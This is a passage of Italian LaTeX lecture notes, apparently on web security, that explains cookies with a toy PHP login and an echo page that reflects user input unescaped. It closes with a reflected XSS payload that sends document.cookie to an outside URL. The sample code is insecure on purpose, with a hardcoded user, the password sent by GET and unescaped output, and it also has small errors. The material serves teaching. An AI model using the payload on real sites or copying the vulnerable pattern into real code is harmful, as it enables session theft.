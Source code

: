 HTML non ha uno stato relativo alla sessione, ogni connessione non è correlata alla precedente. Per evitare di reinserire utente e password ad ogni azione, si utilizzano i \textit{cookies}. Un cookie è un'informazione che il server invia al browser dopo il primo login ed il browser automaticamente reinvia al server ad ogni azione. In questo modo il server riconosce il browser e gli permette di saltare le autenticazioni per il tempo di validità del cookie. Vediamo adesso un esempio più completo; nella prima pagina mettiamo un codice banale per effettuare un login:
\begin{lstlisting}[language=html]
<html>
	<h4> login </h4>
	<form action="check.php" method="get">
		User:
		<input type="text" name="user">
		<br>
		Password:
		<input type="text" name="pass">
		<input type="submit" value="entra">
	</form>
</html>
\end{lstlisting}
Lo script in PHP che controlla l'utente invia un cookie:
\begin{lstlisting}[language=php]
<?php
	if ($_get["user"] == "pippo"){
		setcookie("user", "authorized", time() + 3600);
		echo "Benvenuto ".$user;
		# crea un cookie con nome user, e dati relativi all'utente.
		echo <<<END
		<form action="retrieve.php" method="get">
			Input:
			<input type="text" name="content">
			<br>
			<input type="submit" value="Ok">
		</form>
		END;
	}
	else
		echo "L'utente non esiste\n";
?>
\end{lstlisting}
Il codice di echo è il seguente:
\begin{lstlisting}[language=php]
<?php
	if ($_COOKIE["user"] == "authorized"){
		$input = $_GET['content'];
		echo "Hai scritto: ".$input;
	}
	else
		echo "non hai diritto ad accedere a questa pagina\n"
?>
\end{lstlisting}
Se adesso provassimo ad inserire il codice Javascript di prima, troveremmo un cookie con un valore. Se inserissimo però \texttt{{\footnotesize<script> window.open('http://google.it?cookie='+document.cookie) </script>}} succederebbe che il browser invierebbe al sito il contenuto del cookie.

